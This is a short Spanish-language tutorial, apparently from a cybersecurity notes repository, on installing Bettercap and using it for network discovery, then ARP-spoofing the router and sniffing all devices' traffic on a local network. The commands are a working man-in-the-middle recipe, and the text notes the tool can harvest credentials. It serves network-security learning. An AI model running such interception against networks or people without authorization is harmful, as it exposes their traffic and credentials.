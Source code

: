 # Análisis con Bettercap

Bettercap es una herramienta potente, flexible y portátil creada para realizar varios tipos de ataques MITM contra una red, manipular HTTP, HTTPS y tráfico TCP en tiempo real, buscar credenciales y mucho más.

## Instalación

sudo apt-get install build-essential ruby-dev libpcap-dev

```
apt-get update

apt-get install bettercap
```

## USO

Abriremos una nueva terminal y ejecutaremos lo siguientes comandos:

```
bettercap

net.probe on

ticker on
```

Como podemos observar son las IP de nuestra red local.


![Informatica](IP.jpg)

En la misma terminal ejecutaremos de nuevo bettercap, seleccionamos la IP que vamos analizár en este caso vamos a nalizar todas las IP para esto seleccionamos la IP del router.

```
set arp.spoof.targets 192.168.1.1

arp.spoof on

set net.sniff.verbose false

net.sniff on
```

Y nos mostrara todo el tráfico de todos los dispositivos.

![Informatica](Ciberseguridad/Análisis%20de%20Red%20y%20Seguridad%20Wireless/Bettercap/Img/trafico.png)

